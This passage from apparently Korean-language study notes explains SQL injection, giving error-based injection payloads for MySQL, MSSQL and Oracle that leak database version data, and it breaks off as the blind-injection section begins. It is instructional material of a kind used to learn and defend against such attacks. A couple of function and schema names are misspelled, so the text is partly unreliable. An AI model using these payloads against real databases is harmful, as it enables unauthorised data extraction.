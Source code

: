         ```SQL
        SELECT * FROM users
        WHERE username IN (SELECT "admin" UNION SELECT "guest");
        --다중 행의  결과를 사용할 수 있음
        ```

    - **Error Based**

      에러 베이스는 이용자가 임의적으로 에러를 발생시켜 정보를 획득하는 공격 기법

      ```SQL
      -- MySQL 에서 Error Based SQL Injection을 위해 많이 사용되는 공격 형태 중 하나
      SELECT extractvalue(1, concat(0x3a, version()));
      ```

      extravalue 함수는 첫번째 인자에 존재하는 xml 데이터에서 두번째  
      인자의 XPATH 식을 통해 데이터를 추출하는 함수

      하지만 두번째 인자에 올바르지 않은 XPATH 식을 입력하게 되면  
      올바르지 않은 XPATH 식이라는 에러와 함께 해당 인자가 함께 출력  
      되기 때문에 이를 이용한 공격

      DBMS 별로 Error Based SQL Injection을 위해 사용하는 주요 쿼리문

      - **MySQL**

        ```SQL
        SELECT updatexml(null, concat(0x0a,version()), null);

        SELECT extractvalue(1, concat(0x3a, version()))

        SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;
        ```

      - **MSSQL**

            ```SQL
            SELECT convert(int,@@version);
            SELECT cast((SELECT @@version) as int);
            ```

      - **Oracle**

        ```SQL
        SELECT CTXSYS.DRITHSX.SN(user, (select banner from v$version where rownum=1)) FROM dual;

        SELECT ordays.ord_dicom.getmappingxpath((select banner from v$version where rownum=1), user, user) FROM dual;
        ```

    - **Blind**

      데이터베이스 조회 후 결과를 직접적으로 확인할 수 없는 경우 사용되는 공격 기법

      기법의 원리는 DBMS의 함수 또는 연산 과정 등을 이용해 데이터베이스  
       내에서 존재하는 데이터와 이용자 입력을 비교하며, 특정 조건 발생 시  
       특별한 응답을 발생시켜 해당 비교에 대한 검증 수행

      Blind SQL Injection이 수행하기 위해서는 다음 조건 만족
